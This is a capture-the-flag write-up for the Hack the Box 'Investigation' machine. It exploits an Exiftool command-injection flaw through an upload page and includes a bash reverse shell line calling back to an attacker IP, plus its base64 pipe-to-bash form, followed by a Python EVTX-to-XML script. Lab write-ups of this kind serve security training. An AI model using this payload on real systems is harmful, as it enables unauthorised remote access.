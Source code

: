 # Hack the Box - Investigation

```CSS
Machine IP: 10.10.11.197 - Linux
```
- Home Page
![image](https://user-images.githubusercontent.com/83878909/229590867-b6247863-847c-4542-9262-8b49d68df091.png)
- Service Page (File Upload)
![image](https://user-images.githubusercontent.com/83878909/229591086-ae649d64-42c7-4d06-b226-766ab832b99b.png)
- Analysed Image Report
![image](https://user-images.githubusercontent.com/83878909/229594569-1b66a61c-ca06-46af-ab8a-74fc5013a9e5.png)

## Exiftool
- Version 12.97 is vulnerable to [CVE-2022-23935](https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429).

## Exploit
  - Testing the exploit using ping. Ping the attacker machine and capture ICMP packets if the ping is received.
![image](https://user-images.githubusercontent.com/83878909/229599022-e4a6e61a-e57b-443f-867f-d6c083766361.png)
  - Ping received.
![image](https://user-images.githubusercontent.com/83878909/229599327-3589ec39-e31f-4c38-a8c5-20ebf6b5f5dc.png)

- Sending the payload in base64 format and decrypting it on the victim machine.
  - Payload: `/bin/bash -i >& /dev/tcp/10.10.14.34/9001 0>&1`=`echo 'L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjM0LzkwMDEgMD4mMQ==' | base64 -d | bash |`
![image](https://user-images.githubusercontent.com/83878909/229601047-d8811696-5f5d-482a-a8bc-f421c49b9d36.png)
  - Reverse Shell
![image](https://user-images.githubusercontent.com/83878909/229601230-9c508f23-7f61-4b3b-a0df-42521867ac4c.png)

---

- Found `.msg` file in `/usr/local/investigation`.
  - Transfer the file to attacker machine.
![image](https://user-images.githubusercontent.com/83878909/229604774-0211e995-a22b-4a49-ab70-77968c74c204.png)
  - Receive File - renamed to `analysis.msg`
![image](https://user-images.githubusercontent.com/83878909/229604983-c4243c4e-900b-452d-a88f-20bc83f39555.png)
  - Access the file using an online tool `https://products.aspose.app/`.
![image](https://user-images.githubusercontent.com/83878909/229606099-e31e6d5e-d398-4441-9163-6c8327539e46.png)
  - Download the `zip` file using an online tool `https://www.encryptomatic.com/viewer/`.
![image](https://user-images.githubusercontent.com/83878909/229606850-9d9590fa-ea22-4650-82e9-7ec1a48e82b0.png)
  - Found `security.evtx` after unzipping the file.
  - Use the code below to create a readable file.
```Python
import Evtx.Evtx as evtx
import Evtx.Views as e_views

def main():
    import argparse

    parser = argparse.ArgumentParser(
        description="Dump a binary EVTX file into XML.")
    parser.add_argument("evtx", type=str,
                        help="Path to the Windows EVTX event log file")
    args = parser.parse_args()

    with evtx.Evtx(args.evtx) as log:
        print(e_views.XML_HEADER)
        print("<Events>")
        for record in log.records():
            print(record.xml())
        print("</Events>")


if __name__ == "__main__":
    main()
```
